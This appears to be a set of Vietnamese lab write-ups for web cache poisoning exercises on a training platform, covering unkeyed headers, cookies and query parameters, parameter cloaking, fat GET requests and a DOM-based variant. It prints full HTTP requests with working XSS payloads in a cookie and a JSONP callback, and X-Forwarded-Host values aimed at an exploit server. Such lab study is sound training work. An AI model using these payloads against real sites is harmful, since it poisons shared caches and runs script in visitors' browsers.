## Lab: Web cache poisoning with an unkeyed header
Sử dụng scaner để đoán header và thấy X-Forwarded-Host header được reflect ở respose


Xác nhận thao túng được response


request: Thao túng file js được trả về
```
GET / HTTP/2
Host: 0a0a00e904b880dc80309422003e009c.web-security-academy.net
Cookie: session=UGTNLtYP6qFWzjqaVWOKZyjBruTo8hID
Sec-Ch-Ua: "Chromium";v="133", "Not(A:Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a0a00e904b880dc80309422003e009c.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
X-Forwarded-Host: exploit-0a2900e10421803e80a7937d01c900b6.exploit-server.net


```

## Lab: Web cache poisoning with an unkeyed cookie

trang web reflect giá trị của `fehost` cookies trong response

request: chú ý phải để `X-Cache: hit`
```
GET /product?productId=5 HTTP/2
Host: 0aed00ca0359394c809412d1003e007c.web-security-academy.net
Cookie: session=QGykGuq54Dus01A5BYzze1lbVcog5UNX; fehost=� �y"}</script><script>alert(1) // 
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="133", "Not(A:Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aed00ca0359394c809412d1003e007c.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```


## Lab: Web cache poisoning with multiple headers
Thực hiện scan header thì nhận thấu 2 cái này. 



nếu có header thì sẽ trả về 302 con không có thì 200

tên header này có vẻ là 1 schema mà trong request thì chỉ có http và https . Sau khi test thì nếu ở đây không phải https thì sẽ trả về mã 302 . theo như hint thì nó hỗ trợ `X-Forwarded-Host` headers.

Thao túng được response.



Thực hiện khai thác nhưng nó hiện như text , chứng tỏ `Content-Type` của server burp không được cấu hình là html day dạng tương tự. Sửa `Content-Type: text/html; charset=utf-8`

Thực hiện khai thác để trigger alert()


## Lab: Targeted web cache poisoning using an unknown header

Sử dụng tính năng scan của burp( custom configration). Xác định được trang web hỗ trợ 3 header sau và có thể thao túng đươc response
```
X-Forwarded-Host: ehz5wsil96dk0ylxdfwz8pr5ewkp8lwex2npdd2.oastify.com 
X-Host: ehz5wsil96dk0ylxdfwz8pr5ewkp8lwex2npdd2.oastify.com 
X-Forwarded-Server: ehz5wsil96dk0ylxdfwz8pr5ewkp8lwex2npdd2.oastify.com
```


Cấu hình tương tự như những lab trên thì  triigger được XSS.


```
Content-Type: text/html; charset=utf-8
Vary: User-Agent
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 4
X-Cache: hit
```
ở respone này thấy `Vary: User-Agent` ==> user-agent là 1 thành phần của key-cache. TTL=30.

xác nhận ở comment dính XSS



```
POST /post/comment HTTP/1.1
Host: 0ac8002b0486b53280e80d4000c2003b.h1-web-security-academy.net
Cookie: session=IQG30mArH2iESdAAlyQjA1DKkUuPJSQm
Content-Length: 193
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="133", "Not(A:Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Origin: https://0ac8002b0486b53280e80d4000c2003b.h1-web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ac8002b0486b53280e80d4000c2003b.h1-web-security-academy.net/post?postId=4&mkkh64a26o=1
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

csrf=lau3KbX8hiOpHMbJKBaVnF7Lvtvojws0&postId=4&comment=&name=testname&email=test%40gmail.com&website=https%3Aabc.com

```

Ở đây đợi victim truy cập lể lấy user-agent rồi chèn vào requets để giải quyết bài lab.

`user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/157.0.0.0 Safari/537.36`

## Lab: Web cache poisoning via an unkeyed query string

Sửa dụng scaner thì xác định đươc query string được relect ở response nằm trong thẻ link. Xác định key_cache là `method + uri`


Bắt đầu tấn công XSS bằng cách gửi request đến /post với param utm_content=<XSS payload> (nhớ xóa cache buster) cho đến khi X-Cache:hit.

Payload: 

## Lab: Web cache poisoning via an unkeyed query parameter

**note**: `UTM` là một tham số phụ trong các chiến dịch về makerting.
Tương tự lab trên thì có vẻ dính cache poisoning ở tham số 



Xác định được `key_cache=METHOD + ENDPOINT + PARAM` nhưng không bao gồm những `UTM` param.

Payload:


## Lab: Parameter cloaking

Parameter cloaking: kĩ thuật lợi dụng sự bất đồng bộ cách phân tích query string giữa Cache Server(các serverse proxy) và Backend Server.


Xác định thao túng được response và xác định được `key_cache=METHOD+ENPOND+THAM_SỐ` trừ tham số `utm_content`


Target thực hiện encode html các kí tự `'"<>` nên khó mà cắt chuỗi được nên cần phải tìm hướng khác


Nhận vào một function mà reflection tên đó ở response `setCountryCookie`


payload: `GET /js/geolocate.js?callback=setCountryCookie&utm_content=quandz;callback=alert(1)`

## Web cache poisoning via a fat GET request

fat GET request là GET method nhưng vẫn có body.

Tương tự bài trên ta sẽ nhắm đến tham số callback tại `/js/geolocate.js`. Gửi param `callback=alert(1)` dưới body với method GET và cache buster tại Origin header thì thấy hàm alert(1) đã được gọi. → ứng dụng chấp nhận GET requests có chứa body.


nó ưu tiên lấy call_back ở body

## Lab: URL normalization


Xác định được XSS là response của trang thông báo 404 not found.

Bị lỗi do trình duyệt tự động encode-url nên không trigger được. giải quyết vấn đề này thì để victim truy cập đúng cache đã lưu trước đó.

Chú ý TTL của cache chỉ có 10s nên làm phải nhanh mới pass được:))))

## Lab: Web cache poisoning to exploit a DOM vulnerability via a cache with strict cacheability criteria

Ở `/resources/js/geolocate.js` dính DOM-base khi dùng `innerHTML` gán trực tiếp giá trị `j.country`  vào div. Hàm này thực hiện lấy dữ liệu từ 1 url được truyền vào. 
```javascript

function initGeoLocate(jsonUrl)
{
    fetch(jsonUrl)
        .then(r => r.json())
        .then(j => {
            let geoLocateContent = document.getElementById('shipping-info');

            let img = document.createElement("img");
            img.setAttribute("src", "/resources/images/localShipping.svg");
            geoLocateContent.appendChild(img)

            let div = document.createElement("div");
            div.innerHTML = 'Free shipping to ' + j.country;
            geoLocateContent.appendChild(div)
        });
}

```

Gía trị truyền vào được lấy từ `data.host`. Theo như recon ở trên trên thì cache bị thao túng bởi `X-Forwarded-Host` nó impact đến `data = {"host":"ct9x434z4c1npm4qddidmciyfpli9bx4ysofe33.oastify.com","path":"/login"}`
```
                <script>
                        initGeoLocate('//' + data.host + '/resources/json/geolocate.json');
                    </script>
                </div>
```

Xác nhận `key_cache=METHOD_ENDPOINT`.

chú ý:
- `fetch()` để lấy tài nguyên khác domain thì cần cấu hình CORS 
- `innerHTML`: KHÔNG thực hiện thẻ `<script>` mặc dù nó vẫn ở trong DOM

Khai thác: 



